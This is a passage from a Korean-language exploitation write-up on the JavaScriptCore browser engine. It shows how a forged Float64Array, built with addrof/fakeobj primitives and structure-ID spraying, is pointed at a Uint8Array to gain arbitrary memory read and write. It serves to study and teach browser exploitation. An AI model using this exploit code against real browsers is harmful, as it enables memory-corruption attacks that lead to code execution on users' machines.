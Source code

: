위 사항 중 마지막 사항 때문에 Float64Array 의 vector 가 Uint8Array 인스턴스를 가리키게끔 구성할 것이다.

```
+----------------+                  +----------------+
|  Float64Array  |   +------------->|  Uint8Array    |
|                |   |              |                |
|  JSCell        |   |              |  JSCell        |
|  butterfly     |   |              |  butterfly     |
|  vector  ------+---+              |  vector        |
|  length        |                  |  length        |
|  mode          |                  |  mode          |
+----------------+                  +----------------+
```


이렇게 하면 두 번째 배열의 데이터 포인터를 임의의 주소값으로 세팅할 수 있다. 즉 임의의 메모리를 읽고 쓸 수 있게 된다.

아래의 코드는 앞서 보았던 익스플로잇 코드를 사용해서 가짜 Float64Array 인스턴스를 만드는 과정을 보여준다. 첨부된 익스플로잇 코드에선 임의의 메모리 영역에 읽기와 쓰기를 편하게 할 수 있도록 전역 ‘memory’ 객체를 구현했다.

```javascript
    sprayFloat64ArrayStructures();

    // 임의의 메모리 주소를 읽고 쓰기 위한 배열을 생성한다.
    var hax = new Uint8Array(0x1000);

    var jsCellHeader = new Int64([
        00, 0x10, 00, 00,       // m_structureID, current guess
        0x0,                    // m_indexingType
        0x27,                   // m_type, Float64Array
        0x18,                   // m_flags, OverridesGetOwnPropertySlot |
            // InterceptsGetOwnPropertySlotByIndexEvenWhenLengthIsNotZero
        0x1                     // m_cellState, NewWhite
    ]);

    var container = {
        jsCellHeader: jsCellHeader.encodeAsJSVal(),
        butterfly: false,       // 임의의 값
        vector: hax,
        lengthAndFlags: (new Int64('0x0001000000000010')).asJSValue()
    };

    // 가짜 Float64Array를 생성한다.
    var address = Add(addrof(container), 16);
    var fakearray = fakeobj(address);

    // 올바른 Structure ID를 찾는다.
    while (!(fakearray instanceof Float64Array)) {
        jsCellHeader.assignAdd(jsCellHeader, Int64.One);
        container.jsCellHeader = jsCellHeader.encodeAsJSVal();
    }

    // 모두 끝났다, 이제 fakearray는 hax 배열의 위쪽을 가리킨다
```
